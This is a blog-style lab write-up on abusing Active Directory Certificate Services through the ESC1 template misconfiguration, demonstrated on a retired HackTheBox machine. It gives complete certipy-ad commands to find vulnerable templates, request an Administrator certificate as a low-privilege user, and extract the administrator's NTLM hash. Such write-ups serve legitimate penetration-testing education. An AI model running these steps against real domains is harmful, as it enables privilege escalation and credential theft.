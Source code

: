```yaml
---
title: Abusing Active Directory Certificate Services
published: 2025-06-21
description: 'Learn about the significance active directory certificates in pentesting, abusing ADCS and ESC1 attack.'
image: ''
tags: ['adcs', 'ESC1']
category: 'active-directory'
draft: false
---
```

## What is Active Directory Certificate Services (ADCS) ?

Active Directory Certificate Services (AD CS) is a Windows Server role responsible for issuing, managing and validating digital certificates within a public key infrastructure (PKI). Active Directory Certificate Services provides a secure and scalable platform for managing digital identities, ensuring the confidentiality, integrity and availability of information within an organization.


### Main components of Active Directory Certificate Services:

- **Certificate Authority (CA):** Issues and manages digital certificates.

- **Certificate Templates:** Define the properties and usage of certificates.

- **Certificate Authority Web Enrollment:** Allows users and computers to request certificates through a web-based interface.

- **Public Key Infrastructure:** PKI manages certificates and public key encryption.

- **Certificate Signing Request:** CSR is a message send to CA to request a signed certificate

- **Extended Key Usage:** Extended Key Usage are object indentifiers that define how a generated certificate may be used.

## Certificate Templates

Since Active Directory Certificate Services is such a critical service, it usually runs on only a few selected domain controllers, normal users can't interact with the AD CS directly. Some organizations that are too large have administrator's that create and distribute each certificate manually, distributing certificates manually to each user is not feasible in larger organizations. This is where certificate templates come into action, AD CS administrators can create several templates that can allow users with the relevant permission to request a certificate themselves. These certificate templates have specific parameters that define which user can request the certificate and what permissions are required.

![CSR](./images/adcs-abuse/csr-1.png)
Credit: SpecterOps

## What vulnerabilities can arise with Certificate Templates ?

This vulnerability was researched and discovered by [SpecterOps](https://specterops.io/) and later disclosed in their [whitepaper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) in 2021. This whitepaper highlights how specific combination of parameters in certificate templates can be abused and lead to privilege escalation to domain administrator and persistent access for years.

## Format of a Certificate Template

A certificate template consists of various parameters, a misconfigured combination of these parameters leads to vulnerabilities in certificate templates. Some of the well known vulnerabilities in certificate templates are: ESC1, ESC4, ESC7, ESC9, ESC15 and so on.

Here is what a certificate vulnerable to ESC1 looks like:

![ESC1 Vulnerable Certificate](./images/adcs-abuse/esc1.png)

The template is vulnerable to ESC1 because it has: Enrollee supplies subject and template allows client authentication parameters enabled. 
Other ESC(2-16) vulnerabilities have different combination of parameters in templates that make them vulnerable.

## Exploiting AD CS Templates

For this blog, i will be using a retired machine from HackTheBox: [Escape](https://app.hackthebox.com/machines/531)

The first step to determining vulnerable templates, is using our credentials to collect data for bloodhound and figuring out whether our compromised user account has access to the ADCS or not.

![bloodhound](./images/adcs-abuse/bloohound.png)

Here in bloodhound we can see that our compromised user *Ryan Cooper* is part of the **CERTIFICATE SERVICE DCOM ACCESS** group. Which seems to be the ADCS group.

This can also be identified in powershell by running:

```
whoami /all
```

![group membership](./images/adcs-abuse/priv1.png)

Now that we know that our user is potentially part of the ADCS group, we can use [certipy-ad](https://github.com/ly4k/Certipy) - a very powerful tool for attacking and enumerating AD CS. It supports identification and exploitation of ESC1-ESC16 vulnerabilities.

Certipy-ad can be installed on kali linux using apt: `sudo apt-get install certipy-ad`

> Note: certipy-ad goes to various updated often, so the commands and switches/flags I am using in this blog works as of 21-06-2025, it may or may not work in future. So please reference the official documentation for certipy-ad on their github repository.

1. **Identifying vulnerable templates:**

We can use certipy-ad to identify vulnerable templates using the credential for the user we have access to, certipy-ad accepts both password and ntlm hash for authentication.

```
certipy-ad find -u "ryan.cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -vulnerable -enabled -stdout
```

Flags:
- **find**: certipy-ad option for enabling certificate enumeration
- **-u**: username
- **-p**: password
- **-dc-ip**: domain controller ip
- **-vulnerable**: find vulnerable templates on the dc
- **-enabled**: search for enabled/working templates only
- **-stdout**: standard output, output the result of terminal instead of writing them to files which certipy-ad does by default (it creates a mess).

We get the result and one of the templates is vulnerable to ESC1 because it has 2 particular parameters: *Enrollee supplies subject* and template allows *client authentication*

![vuln template](./images/adcs-abuse/vuln_template.png)

2. **Requesting Administrator's certificate:**

Now that we know the target template and its details, we can abuse it to issue administrator user's certificate and get access to target system as admin. This is also done using certipy-ad

```
certipy-ad req -u 'ryan.cooper@sequel.htb' \
-p 'NuclearMosquito3' \
-dc-ip 10.10.11.202 \
-target 'sequel.htb' \
-ca 'sequel-DC-CA' -template 'UserAuthentication' \
-upn 'Administrator@sequel.htb'
```

Flag:
Other than the flags i discussed above here is what the other flags are for,
- **req**: certipy-ad option requesting certificate
- **-target**: specify target domain
- **-ca**: Name of the certificate authority, can be found on the result of vulnerable template enumeration we did previously
- **-upn**: User Principal Name of target user, i.e. Administrator

This will request a certificate for administrator user from the AD CS and save it as a **.pfx** (personal information exchange file) file on our system.
![admin certificate dumped](./images/adcs-abuse/admin_cert.png)

3. **Dumping Administrator's NTLM hash using the PFX file:**

Now we can use certipy-ad to use the administrator.pfx file and dump the ntlm hash for administrator user:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

Flags:
- **auth**: certipy-ad option for authentication
- **-pfx**: specifying the pfx file to use

And we get the administrator ntlm hash that we can use with psexec, evil-winrm, etc to authenticate and access the target system as administrator.

![admin hash](./images/adcs-abuse/admin_hash.png)

## Conclusion
In this blog we discussed about Active Directory Certificate Services, its components, working of certificate templates SpecterOps discovery and research of certificate template abuse. Then we discussed template vulnerabilities (ESC), how we identify esc1 vulnerability using certipy-ad, how to request administrator's certificate using certipy-ad and then dumping the NTLM hash of the administrator, which can then be used for authentication via various protocols like winrm, smb, etc.

